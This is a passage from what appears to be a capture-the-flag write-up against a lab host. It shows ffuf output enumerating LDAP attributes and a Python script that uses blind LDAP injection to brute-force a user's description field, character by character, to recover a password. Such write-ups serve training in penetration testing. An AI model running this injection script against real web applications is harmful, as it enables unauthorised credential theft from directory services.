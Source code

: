 ```bash
codePage                [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 62ms]
description             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 19ms]
countryCode             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 67ms]
createTimeStamp         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 66ms]
givenName               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 38ms]
distinguishedName       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 93ms]
instanceType            [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 28ms]
lastLogoff              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 34ms]
lastLogon               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 37ms]
logonCount              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 47ms]
modifyTimeStamp         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 120ms]
name                    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 38ms]
objectClass             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 34ms]
nTSecurityDescriptor    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 41ms]
objectCategory          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 39ms]
pwdLastSet              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 39ms]
replPropertyMetaData    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 30ms]
sAMAccountName          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 37ms]
sAMAccountType          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 39ms]
objectGUID              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 188ms]
objectSid               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 188ms]
userAccountControl      [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 32ms]
userPrincipalName       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 35ms]
:: Progress: [1000/1000] :: Job [1/1] :: 754 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Using `ffuf` to fuzz the LDAP attributes it found many attributes, but the `description` is interesting.

#### LDAP Injection
Using LDAP Injection to brute force the `description` field

```python
import requests

def fuzz_pw(base_url, chars, response_string):
    password = ''
    while True:
        for char in chars:
            if char == '*':
                url = base_url.replace('{FUZZ}', '').replace('{FUZZ_2}', password)
            else:
                url = base_url.replace('{FUZZ}', char).replace('{FUZZ_2}', password)

            if response_string in requests.get(url).text:
                password += char
                print(f"Found char: {char}")
                break
        else:
            break

    return password.rstrip('*')

if __name__ == "__main__":
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={FUZZ_2}{FUZZ}*)"
    chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%^&*"
    response_string = "technician"

    output = fuzz_pw(base_url, chars, response_string)
    print(f"\nFound characters: {output}")

```
